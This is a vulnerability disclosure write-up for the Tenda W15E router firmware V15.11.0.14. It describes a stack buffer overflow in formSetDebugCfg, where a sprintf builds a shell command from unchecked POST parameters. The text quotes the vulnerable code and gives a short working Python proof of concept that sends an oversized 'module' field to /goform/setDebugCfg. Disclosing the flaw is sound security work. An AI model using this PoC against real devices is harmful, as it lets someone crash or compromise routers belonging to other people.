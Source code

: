 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetDebugCfg` function. The `pEnable, pLevel, pModule` variable receives the `enable, level, module` parameter from a POST request. However, since the user can control the input of `enable, level, module`, the statement

```c
sprintf(
    (char *)cmd,
    "echo enable=%s level=%s > /var/debug/%s",
    (const char *)pEnable,
    (const char *)pLevel,
    (const char *)pModule);
```

can cause a buffer overflow. The user-provided  `enable, level, module` can exceed the capacity of the `cmd` array, triggering this security vulnerability.

![image-20240417093917502](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417093917502.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setDebugCfg"
payload = b"a"*2000

data = {
        'module':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)

